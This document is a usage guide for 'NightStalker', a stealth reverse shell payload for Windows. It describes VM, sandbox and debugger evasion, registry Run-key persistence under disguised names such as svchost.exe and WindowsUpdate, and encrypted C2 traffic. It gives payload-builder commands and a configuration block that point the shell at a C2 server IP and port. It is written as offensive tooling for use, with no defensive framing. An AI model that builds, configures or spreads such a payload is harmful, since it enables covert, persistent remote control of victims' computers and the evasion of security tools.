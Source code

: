 # NightStalker - Stealth Reverse Shell Payload Guide

## Overview

The NightStalker Stealth Reverse Shell is an advanced, persistent reverse shell payload designed for Windows targets with built-in anti-detection, encryption, and persistence mechanisms.

## Features

### Core Capabilities
- **Encrypted Communication**: XOR encryption with base64 encoding
- **Anti-Detection**: VM/sandbox detection, debugger detection
- **Persistence**: Registry-based persistence with system-looking names
- **Stealth**: Hidden console, system-looking filenames
- **Reconnection**: Automatic reconnection with randomized jitter
- **Multiple Channels**: Raw socket and HTTPS communication

### Anti-Detection Features
- CPU core count detection
- Sleep timing discrepancy detection
- VM MAC address detection
- Debugger presence detection
- Sandbox timing analysis

### Persistence Mechanisms
- Registry persistence (HKCU\Software\Microsoft\Windows\CurrentVersion\Run)
- Multiple persistence locations (AppData, Temp, LocalAppData)
- System-looking filenames and registry keys

## Quick Start

### 1. Generate Payload

#### Using the Builder CLI
```bash
# Interactive mode
python payload_builder.py --interactive

# Command line mode
python payload_builder.py --lhost 192.168.1.100 --lport 4444

# With custom options
python payload_builder.py --lhost 10.0.0.5 --lport 8080 --name svchost.exe --reg-key WindowsSecurity
```

#### Manual Configuration
Edit the configuration section in `stealth_reverse_shell.py`:
```python
LHOST = "192.168.1.100"          # C2 Server IP
LPORT = 4444                     # C2 Server Port
PAYLOAD_NAME = "winupdate.exe"   # Name for the copied payload
REG_KEY_NAME = "WindowsUpdate"   # Registry key name for persistence
ENCRYPTION_KEY = "NightStalker2024!"  # Encryption key
USE_HTTPS = False                # Use HTTPS instead of raw socket
```
